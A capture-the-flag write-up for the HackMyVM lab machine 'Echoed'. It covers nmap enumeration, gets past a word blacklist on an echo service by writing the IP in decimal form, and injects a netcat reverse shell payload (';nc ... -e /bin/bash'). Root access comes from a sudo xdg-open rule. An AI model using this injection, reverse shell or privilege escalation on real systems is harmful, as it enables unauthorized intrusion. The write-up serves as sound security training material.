 ```yaml
---
layout: post
author: maxin
title:  "Echoed"
date:   2022-01-01 09:48:24 PM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Echoed)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Wed Dec 29 20:31:35 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.59
Nmap scan report for 192.168.0.59
Host is up (0.017s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 de:3a:50:8e:5d:21:09:7e:40:3f:b2:07:bb:41:08:7e (RSA)
|   256 5c:57:56:da:e5:1c:3e:bc:9a:a2:8d:6d:21:4e:bc:f9 (ECDSA)
|_  256 f8:aa:dc:d3:27:52:e3:99:32:98:45:5b:52:f0:bc:e1 (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
4444/tcp open  krb524?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 20:34:32 2021 -- 1 IP address (1 host up) scanned in 177.11 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
If you dont see Command: prompt in the XXXX port, please restart the VM.
{% endhighlight  %}

# Port 4444

It’s a program that echo what we type, but have some kind of blacklist 

![Untitled](/images/echoed/notBlocked.png)

The following word aren’t block

- numbers
- nc
- -e
- /bin/bash

We can create a reverse shell with those commands

# User

Convert ip to decimal, because  `. (dot)`  is blocked.

[IPv4 Address to IP Decimal Conversion \| IPAddressGuide](https://www.ipaddressguide.com/ip)

{% highlight bash  %}
";nc 3232235736 4444 -e /bin/bash;# 
{% endhighlight  %}
Final payload 

# Root

{% highlight bash  %}
sudo -l

User charlie may run the following commands on echoed:
    (ALL : ALL) NOPASSWD: /usr/bin/xdg-open
{% endhighlight  %}

{% highlight bash  %}
sudo xdg-open /root/root.txt
{% endhighlight  %}